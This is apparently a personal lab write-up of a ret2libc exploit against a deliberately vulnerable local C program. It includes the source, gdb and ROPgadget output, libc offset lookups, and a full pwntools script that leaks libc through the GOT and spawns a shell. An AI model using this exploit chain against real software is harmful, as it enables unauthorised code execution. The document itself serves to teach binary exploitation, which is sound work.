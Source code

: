 # Another awsome breakdown provided by @legacyy.  I was able to perform my first ret2libc thanks to him.
https://www.legacyy.xyz/  
https://twitter.com/0xLegacyy  

The source code of ret2libc

```c
#include <stdio.h>


int main(int argc, char **argv)
{
    char buf[64]; 
	/* buf variable takes 64 bytes of data */

    puts("Welcome! This is a ret2libc ooooooooo spooky");

    read(0, buf, 1024);
	/* read function takes reads user_input of buf. */

    return 0;
}
```

### Reviewing the list of functions using gdb debugger by typing `info func`.

```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401050  puts@plt
0x0000000000401060  read@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401156  main
0x00000000004011a0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401218  _fini
```

### I will need find the initial offset for the read function from the global offset table. I can find this inside `.got.plt` in ghidra.

```
read function => 0x404020
```

### Using ROPGadget to retrieve offset of pop_rdi gadget:

```
root@kali:~/recon/ret2lib# ROPgadget --binary=./ret2libc | grep rdi
0x00000000004010c6 : or dword ptr [rdi + 0x404038], edi ; jmp rax
0x0000000000401203 : pop rdi ; ret

pop_rdi => 0x401203
```

### retrieving your read, system and bin_sh offsets from your libc file (x64)

```
I will need to now retrieve my libc offsets using a useful tool named libc-database from github:

git clone https://github.com/niklasb/libc-database.git
cd libc-database
./add /usr/lib/x86_64-linux-gnu/libc.so.6
./identify /usr/lib/x86_64-linux-gnu/libc.so.6 # Will output local-XXXXXXXXXXXXXXXXX
./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh

1. ./add /usr/lib/x86_64-linux-gnu/libc.so.6
Adding local libc /usr/lib/x86_64-linux-gnu/libc-2.31.so (id local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88  /usr/lib/x86_64-linux-gnu/libc-2.31.so)
  -> Writing libc /usr/lib/x86_64-linux-gnu/libc-2.31.so to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.so
  -> Writing symbols to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.symbols
  -> Writing version info

2. ./identify /usr/lib/x86_64-linux-gnu/libc.so.6
local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88

3. ./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh
offset_read = 0x00000000000eee80
offset_system = 0x0000000000048e50
offset_str_bin_sh = 0x18a152
```

### found the following libc addresses:
```
offset_read       => 0xeee80
offset_system	  => 0x48e50
offset_str_bin_sh => 0x18a152
```

### To leak the libc_read address, I will need to initialize the rop chain.

```py
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main
```

### sending the buf payload to the binary by typing `p.sendline(buf)`

### Cleaning up the leaked address

`leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))`

- To properly clean the leaked address you must first retrieve it by typing `p.recvuntil(b"\n")`. Then to remove the newline at the end of the address by typing `[:-1]`.
- Then you will need to pad the address to equal 8 bytes to the left, this can be done by using `ljust`. `p.recvuntil(b"\n")[:-1].ljust(8, b"\x00")`
- After padding the address you can unpack the address by using `u64`.

Once cleaned the leaked_libc_read should look like `0x7fe39de9be80`

### Finding your libc_base address

To find your libc_base address you can minus `offset_set` by `leaked_libc_read`.

`libc_base = leaked_libc_read - libc_read`

### Proceeding with adding `libc_system` and `libc_bin_sh` to get your system/bin_sh pointer.

`system_ptr = libc_base + system_libc`

`bin_sh_ptr = libc_base + libc_bin_sh`

### Now that you have the necessary functions to call system, create a new rop chain and call system and get a shell. *Reminder* You will need to ensure the rop chain equals to the multiple of 16 so the chain we are executing was not originally a multiple of 16.  To resolve this, we had found a ret; gadget to make it 32 bytes which makes it a multiple of 16 `32 / 16 = 2`.

```py
buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.
```

### Next, send the new rop chain payload to the binary and execute your system shell.

```bash
python3 ret2libc.py 
[+] Starting local process './ret2libc': pid 5862
Leaked libc => 0x7fdbf2255e80
libc base => 0x7fdbf2167000
system pointer => 0x7fdbf21afe50
bin_sh pointer => 0x7fdbf22f1152

[*] Switching to interactive mode
$ whoami
root

```

### My exploit script

```py
from pwn import *

p = process("./ret2libc")

main_ptr = 0x401156 # offset for main().
puts_ptr = 0x401050 # offset for puts().
pop_rdi = 0x401203 # offset for pop rdi; ret;
read_got = 0x404020 # offset for read() in the global offset table
ret_gt = 0x40101a # ret gadget

libc_read = 0xeee80 # libc read function offset from libc.so.6
system_libc = 0x48e50 # libc system function offset from libc.so.6
libc_bin_sh = 0x18a152 # libc /bin/sh string offset from libc.so.6

#Receive initial text
p.recvline()

# ROP Chain #1
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main

# send ROP chain
p.sendline(buf)

# receive line until a new line and retrieve the leaked libc address.  ljust by adding padding nullbytes until its 8 bytes long then unpack the address so that the address.
leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))

# Successfully retrieved leaked libc
print(f"Leaked libc => {hex(leaked_libc_read)}")

# Retrieve data
p.recvline()

# Getting the libc base address by minus leaked libc offset against libc_read
libc_base = leaked_libc_read - libc_read
# Getting system pointer by adding system_libc to libc_base
system_ptr = libc_base + system_libc
# Getting /bin/sh pointer by adding libc_bin_sh to libc_base
bin_sh_ptr = libc_base + libc_bin_sh

print(f"libc base => {hex(libc_base)}")
print(f"system pointer => {hex(system_ptr)}")
print(f"bin_sh pointer => {hex(bin_sh_ptr)}")
print()

buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.

# send new rop chain
p.sendline(buf)
p.interactive()
```
